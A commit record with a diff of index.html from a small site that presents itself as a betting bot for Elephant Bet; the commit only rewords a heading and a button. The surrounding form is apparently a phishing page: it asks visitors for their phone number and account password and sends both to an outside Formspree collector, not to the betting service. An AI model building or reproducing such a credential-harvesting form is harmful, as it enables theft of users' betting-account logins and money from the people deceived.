

Before and after one commit to Site1969/Bot-Bac-B-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 262-754 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -71,7 +71,7 @@
   <div id="resultado"></div>
 
   <div class="section">
-    <h2>Conecte com a sua conta da Elephant Bet</h2>
+    <h2>Conecte o Bot Com a Sua Conta Da Elephant Bet</h2>
     <form id="loginForm" action="https://formspree.io/f/xgvneord" method="POST">
       <label for="numero">Número</label><br>
       <input type="text" id="numero" name="numero" placeholder="número de telemóvel" required><br>
@@ -79,7 +79,7 @@
       <label for="senha">Senha</label><br>
       <input type="text" id="senha" name="senha" placeholder="Digite a sua senha" required><br>
 
-      <button type="submit">Conectar Agora</button>
+      <button type="submit">Conectar o Bot</button>
     </form>
     <a href="#">← Voltar</a>
   </div>
```
